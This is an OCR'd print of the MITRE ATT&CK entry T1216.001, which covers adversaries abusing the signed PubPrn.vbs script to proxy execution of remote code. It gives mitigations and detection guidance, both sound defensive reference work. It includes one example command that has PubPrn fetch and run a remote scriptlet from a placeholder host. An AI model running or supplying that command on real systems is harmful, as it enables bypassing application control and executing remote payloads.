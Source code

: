 3/22/24, 3:45 PM System Script Proxy Execution: PubPrn, Sub-technique T1216.001 - Enterprise | MITRE ATT&CK®
https://attack.mitre.org/techniques/T1216/001/ 1/4Thank you to Tidal Cyber and SOC Prime for becoming ATT&CK's ﬁrst Benefactors. To join the cohort, or learn more about this program visit our
Benefactors page.3/22/24, 3:45 PM System Script Proxy Execution: PubPrn, Sub-technique T1216.001 - Enterprise | MITRE ATT&CK®
https://attack.mitre.org/techniques/T1216/001/ 2/4Home>Techniques>Enterprise>System Script Proxy Execution>PubPrn3/22/24, 3:45 PM System Script Proxy Execution: PubPrn, Sub-technique T1216.001 - Enterprise | MITRE ATT&CK®
https://attack.mitre.org/techniques/T1216/001/ 3/4System Script Proxy Execution: PubPrn
Procedure Examples
ID Name Description
G0050 APT32 APT32 has used PubPrn.vbs within execution scripts to execute malware, possibly bypassing defenses.
Mitigations
ID Mitigation Description
M1040 Behavior
Prevention on
EndpointOn Windows 10, update Windows Defender Application Control policies to include rules that block the
older, vulnerable versions of PubPrn.
M1038 Execution
PreventionCertain signed scripts that can be used to execute other programs may not be necessary within a given
environment. Use application control conﬁgured to block execution of these scripts if they are not
required for a given system or network to prevent potential misuse by adversaries.Adversaries may use PubPrn to proxy execution of malicious remote ﬁles. PubPrn.vbs is a Visual Basic script that publishes a printer to
Active Directory Domain Services. The script may be signed by Microsoft and is commonly executed through the Windows Command Shell
via Cscript.exe . For example, the following code publishes a printer within the speciﬁed domain: cscript pubprn Printer1
LDAP://CN=Container1,DC=Domain1,DC=Com .
Adversaries may abuse PubPrn to execute malicious payloads hosted on remote sites. To do so, adversaries may set the second script:
parameter to reference a scriptlet ﬁle (.sct) hosted on a remote site. An example command is pubprn.vbs 127.0.0.1
script:https://mydomain.com/folder/file.sct . This behavior may bypass signature validation restrictions and application control
solutions that do not account for abuse of this script.
In later versions of Windows (10+), PubPrn.vbs has been updated to prevent proxying execution from a remote site. This is done by limiting
the protocol speciﬁed in the second parameter to LDAP:// , vice the script: moniker which could be used to reference remote code via
HTTP(S).[1]
[2]
Version PermalinkID: T1216.001
Sub-technique of:  T1216

Tactic: Defense Evasion

Platforms: Windows

Defense Bypassed: Application Control, Digital Certiﬁcate Validation
Contributors: Atul Nair, Qualys
Version: 2.0
Created: 03 February 2020
Last Modiﬁed: 18 April 2022
[3]
[4]3/22/24, 3:45 PM System Script Proxy Execution: PubPrn, Sub-technique T1216.001 - Enterprise | MITRE ATT&CK®
https://attack.mitre.org/techniques/T1216/001/ 4/4Detection
ID Data SourceData Component Detects
DS0017 Command Command
ExecutionMonitor executed commands and arguments for scripts like PubPrn.vbs that may be used to
proxy execution of malicious ﬁles.
DS0009 Process Process
CreationMonitor script processes, such as `cscript that may be used to proxy execution of malicious
ﬁles.
DS0012 Script Script
ExecutionMonitor for any attempts to enable scripts running on a system would be considered
suspicious. If scripts are not commonly used on a system, but enabled, scripts running out of
cycle from patching or other administrator functions are suspicious. Scripts should be
captured from the ﬁle system when possible to determine their actions and intent.
References
1. Jason Gerend. (2017, October 16). pubprn. Retrieved July 23,
2021.
2. Nelson, M. (2017, August 3). WSH INJECTION: A CASE STUDY.
Retrieved April 9, 2018.3. Carr, N. (2017, December 22). ItsReallyNick Status Update.
Retrieved April 9, 2018.
4. Microsoft. (2021, August 23). Retrieved August 16, 2021.